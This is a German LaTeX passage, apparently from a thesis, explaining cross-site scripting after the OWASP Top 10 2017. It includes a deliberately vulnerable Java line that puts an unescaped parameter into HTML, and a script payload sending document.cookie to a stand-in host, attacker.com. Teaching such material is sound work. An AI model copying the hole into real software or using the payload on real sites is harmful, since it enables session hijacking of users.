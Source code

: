 Die meisten XSS-Schwachstellen sind verhältnismäßig einfach mit Hilfe von Tests oder Code-Analyse zu erkennen.\cite[13]{owasp17top10}.

Angreifer können Skripte im Browser des Opfers ausführen und die Session übernehmen, Webseiten entstellen, falsche Inhalte einfügen, Benutzer umleiten, den Browser des Benutzers durch Malware übernehmen.\cite[13]{owasp17top10}.

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\
Die Anwendung übernimmt nicht vertrauenswürdige Daten, die nicht auf Gültigkeit geprüft oder escaped werden, um folgenden HTML-Code zu generieren:\cite[13]{owasp17top10}:\\
\\
\\
\\

\begin{Listing}[h]
	\begin{lstlisting}
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
	\end{lstlisting}
	\caption{XXS-Beispiel 1}
	\label{lst:xxs1}
\end{Listing}

Der Angreifer ändert den Parameter ‘CC’ in seinem Browser
auf\cite[13]{owasp17top10}:

\begin{Listing}[h]
	\begin{lstlisting}
<script>document.location=
http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>
	\end{lstlisting}
	\caption{XXS-Beispiel 2}
	\label{lst:xxs2}
\end{Listing}

Dadurch wird die Session-ID des Benutzers an die Seite des Angreifers gesendet, so dass der Angreifer die aktuelle Benutzersession übernehmen kann. Beachten Sie bitte, dass Angreifer XSS auch nutzen können, um jegliche CSRF-Abwehr der Anwendung zu umgehen. A8 enthält weitere Informationen zu CSRF\cite[13]{owasp17top10}.

\subsubsection{Unsichere Deserialisierung}


